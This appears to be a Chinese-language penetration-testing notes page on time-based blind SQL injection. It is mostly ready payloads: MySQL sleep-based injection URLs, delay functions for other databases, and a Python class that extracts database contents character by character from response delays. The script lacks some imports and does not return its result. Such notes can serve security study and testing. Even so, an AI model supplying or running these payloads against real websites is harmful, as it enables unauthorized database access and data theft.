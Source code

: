 ### [[时间盲注]] (Time-based Blind)
**原理**: 通过延时函数，根据响应时间判断条件真假

#### 基础技术
```sql
-- MySQL延时
http://target.com/news.php?id=1' and if(length(database())>5,sleep(5),0)--+

-- 条件延时
http://target.com/news.php?id=1' and if(ascii(substr(database(),1,1))>97,sleep(3),0)--+

-- 不同数据库的延时函数
-- PostgreSQL: pg_sleep(5)
-- SQL Server: waitfor delay '00:00:05'
-- Oracle: dbms_lock.sleep(5)
```

#### 优化技术
```python
import time
import threading

class TimeBasedSQLi:
    def __init__(self, url, delay=3):
        self.url = url
        self.delay = delay
        self.baseline_time = self.get_baseline()
    
    def get_baseline(self):
        """获取正常响应时间基线"""
        times = []
        for _ in range(5):
            start = time.time()
            requests.get(self.url)
            times.append(time.time() - start)
        return sum(times) / len(times)
    
    def is_delayed(self, payload):
        """检查是否发生延时"""
        start = time.time()
        requests.get(self.url + payload)
        response_time = time.time() - start
        
        return response_time > (self.baseline_time + self.delay - 1)
    
    def extract_data(self, query_template):
        """提取数据"""
        result = ""
        pos = 1
        
        while True:
            found_char = False
            for char in string.printable:
                payload = f"' and if(ascii(substr(({query_template}),{pos},1))={ord(char)},sleep({self.delay}),0)--+"
                
                if self.is_delayed(payload):
                    result += char
                    found_char = True
                    pos += 1
                    break
            
            if not found_char:
                break
```